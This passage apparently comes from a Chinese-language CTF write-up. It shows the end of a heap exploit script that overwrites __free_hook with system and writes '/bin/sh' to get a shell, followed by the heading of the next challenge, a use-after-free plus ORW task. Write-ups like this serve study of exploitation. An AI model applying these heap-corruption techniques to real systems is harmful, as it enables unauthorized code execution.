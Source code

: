 ```

    delete(3)
    delete(5)
    delete(4)

    newWithZero(-0xbf, 0x40, "arttnba3") 
    new(0x50, p64(libc_base + libc.sym['__free_hook'])) 
    new(0x50, b"/bin/sh\x00") 
    new(0x50, p64(libc_base + libc.sym['system'])) 

    delete(5) 
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行，成功getshell
![](img/614854a9df390817bf3e4d4aad9187bc.png)

## 0x01.gun - Use After Free + ORW

> 这道题我的IDA逆出来是一堆的shit…但是看别人的wp里IDA逆出来的东西怎么都这么正常…Orz
